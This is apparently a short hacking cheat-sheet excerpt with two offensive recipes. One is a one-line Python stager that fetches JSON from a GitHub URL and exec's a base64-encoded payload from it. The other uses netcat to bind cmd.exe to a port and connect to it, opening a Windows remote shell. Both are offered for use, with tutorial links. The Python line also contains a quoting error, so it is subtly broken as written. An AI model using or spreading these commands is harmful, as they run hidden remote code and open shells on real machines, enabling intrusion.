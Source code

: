 


#### Execute Hidden Python Command (In One Line, using base64 encoding) 
[More Info](https://null-byte.wonderhowto.com/how-to/execute-hidden-python-commands-one-line-stager-0236732/)
```
import json; import requests; import base64; data = (requests.get("https://github.com/skickar/Research/blob/master/twitter1.json")).json(); exec(base64.b64decode(data["m1]).decode('utf-8'))
```

#### Remote Shells in Windows
[More Info](https://www.youtube.com/watch?v=Op4s5e8gL0o)
```
nc --Lp 31337 --vv --e cmd.exe
nc 10.73.31.59 31337
```